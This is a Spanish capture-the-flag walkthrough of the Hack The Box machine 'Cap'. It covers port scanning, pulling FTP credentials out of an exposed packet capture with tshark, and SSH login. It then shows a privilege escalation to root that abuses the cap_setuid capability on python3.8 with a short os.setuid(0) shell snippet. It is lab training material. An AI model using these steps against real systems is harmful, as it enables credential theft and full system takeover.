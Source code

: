 ```yaml
---
description: '✍️ Autor: infosecjack 🔍 Dificultad: Fácil 📅 Fecha de creación: 20/09/2021'
---
```


# Cap

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.245
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.245
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP** el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.11.11
```

para que nos proporcione más información sobre esos puertos específicamente. Entramos a la página web para ver que contiene.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Si modificamos y ponemos `/data/0` cambian los números y si modificamos con otros números se aplica un **Open Redirect**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos lo descargamos y vemos que son paquetes de Wireshark por lo que los analizamos.

```bash
tshark -r 0.pcap
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Filtramos para ver mejor la información relevante de la captura.

```bash
tshark -r 0.pcap -Y "ftp" 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos salen unas credenciales por lo que nos logueamos. Descargamos los archivos que contiene.

```
ftp nathan@10.10.10.245
get user.txt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con el usuario **nathan**.

```bash
ssh nathan@10.10.10.245
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero nos pide contraseña. Tampoco tenemos permisos SUID. Pensamos que si la máquina se llama Cap tiene algo que ver con **capabilities** por lo que miramos.

```bash
getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (1161).png" alt=""><figcaption></figcaption></figure>

Muestra que **/usr/bin/python3.8** tiene las capacidades **cap\_setuid** y **cap\_net\_bind\_service**, lo cual no es el valor predeterminado. **CAP\_SETUID** permite cambiar a UID 0 (root) sin necesidad del bit SUID.

Ejecutamos.

```bash
python3.8

import os
os.setuid(0)
os.system("/bin/bash")
```

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1162).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1163).png" alt=""><figcaption></figcaption></figure>
